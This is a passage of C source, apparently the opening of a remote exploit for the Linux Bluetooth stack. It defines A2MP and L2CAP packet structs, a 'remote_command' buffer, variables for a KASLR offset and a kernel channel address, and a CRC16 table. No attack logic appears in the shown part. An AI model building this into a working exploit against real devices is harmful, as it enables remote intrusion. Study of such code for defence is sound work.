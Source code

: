     #define A2MP_ASSOC_REQ 0x08
    typedef struct {
      uint8_t id;
    } __attribute__((packed)) a2mp_assoc_req;

    #define A2MP_ASSOC_RSP 0x09
    typedef struct {
      uint8_t id;
      uint8_t status;
      uint8_t assoc_data[0];
    } __attribute__((packed)) a2mp_assoc_rsp;

    typedef struct {
      uint8_t mode;
      uint8_t txwin_size;
      uint8_t max_transmit;
      uint16_t retrans_timeout;
      uint16_t monitor_timeout;
      uint16_t max_pdu_size;
    } __attribute__((packed)) l2cap_conf_rfc;

    static char remote_command[64];

    static int hci_sock = 0, l2_sock = 0;
    static uint16_t hci_handle = 0;

    static uint64_t kaslr_offset = 0, l2cap_chan_addr = 0;

    static uint16_t crc16_tab[] = {
        0x0000, 0xC0C1, 0xC181, 0x0140, 0xC301, 0x03C0, 0x0280, 0xC241, 0xC601,
        0x06C0, 0x0780, 0xC741, 0x0500, 0xC5C1, 0xC481, 0x0440, 0xCC01, 0x0CC0,
        0x0D80, 0xCD41, 0x0F00, 0xCFC1, 0xCE81, 0x0E40, 0x0A00, 0xCAC1, 0xCB81,
        0x0B40, 0xC901, 0x09C0, 0x0880, 0xC841, 0xD801, 0x18C0, 0x1980, 0xD941,
        0x1B00, 0xDBC1, 0xDA81, 0x1A40, 0x1E00, 0xDEC1, 0xDF81, 0x1F40, 0xDD01,
        0x1DC0, 0x1C80, 0xDC41, 0x1400, 0xD4C1, 0xD581, 0x1540, 0xD701, 0x17C0,
        0x1680, 0xD641, 0xD201, 0x12C0, 0x1380, 0xD341, 0x1100, 0xD1C1, 0xD081,
        0x1040, 0xF001, 0x30C0, 0x3180, 0xF141, 0x3300, 0xF3C1, 0xF281, 0x3240,
        0x3600, 0xF6C1, 0xF781, 0x3740, 0xF501, 0x35C0, 0x3480, 0xF441, 0x3C00,
        0xFCC1, 0xFD81, 0x3D40, 0xFF01, 0x3FC0, 0x3E80, 0xFE41, 0xFA01, 0x3AC0,
        0x3B80, 0xFB41, 0x3900, 0xF9C1, 0xF881, 0x3840, 0x2800, 0xE8C1, 0xE981,
        0x2940, 0xEB01, 0x2BC0, 0x2A80, 0xEA41, 0xEE01, 0x2EC0, 0x2F80, 0xEF41,
        0x2D00, 0xEDC1, 0xEC81, 0x2C40, 0xE401, 0x24C0, 0x2580, 0xE541, 0x2700,
        0xE7C1, 0xE681, 0x2640, 0x2200, 0xE2C1, 0xE381, 0x2340, 0xE101, 0x21C0,
        0x2080, 0xE041, 0xA001, 0x60C0, 0x6180, 0xA141, 0x6300, 0xA3C1, 0xA281,
        0x6240, 0x6600, 0xA6C1, 0xA781, 0x6740, 0xA501, 0x65C0, 0x6480, 0xA441,
        0x6C00, 0xACC1, 0xAD81, 0x6D40, 0xAF01, 0x6FC0, 0x6E80, 0xAE41, 0xAA01,
        0x6AC0, 0x6B80, 0xAB41, 0x6900, 0xA9C1, 0xA881, 0x6840, 0x7800, 0xB8C1,
        0xB981, 0x7940, 0xBB01, 0x7BC0, 0x7A80, 0xBA41, 0xBE01, 0x7EC0, 0x7F80,
        0xBF41, 0x7D00, 0xBDC1, 0xBC81, 0x7C40, 0xB401, 0x74C0, 0x7580, 0xB541,
        0x7700, 0xB7C1, 0xB681, 0x7640, 0x7200, 0xB2C1, 0xB381, 0x7340, 0xB101,
        0x71C0, 0x7080, 0xB041, 0x5000, 0x90C1, 0x9181, 0x5140, 0x9301, 0x53C0,
        0x5280, 0x9241, 0x9601, 0x56C0, 0x5780, 0x9741, 0x5500, 0x95C1, 0x9481,
        0x5440, 0x9C01, 0x5CC0, 0x5D80, 0x9D41, 0x5F00, 0x9FC1, 0x9E81, 0x5E40,
        0x5A00, 0x9AC1, 0x9B81, 0x5B40, 0x9901, 0x59C0, 0x5880, 0x9841, 0x8801,
        0x48C0, 0x4980, 0x8941, 0x4B00, 0x8BC1, 0x8A81, 0x4A40, 0x4E00, 0x8EC1,
        0x8F81, 0x4F40, 0x8D01, 0x4DC0, 0x4C80, 0x8C41, 0x4400, 0x84C1, 0x8581,
        0x4540, 0x8701, 0x47C0, 0x4680, 0x8641, 0x8201, 0x42C0, 0x4380, 0x8341,
        0x4100, 0x81C1, 0x8081, 0x4040,
    };
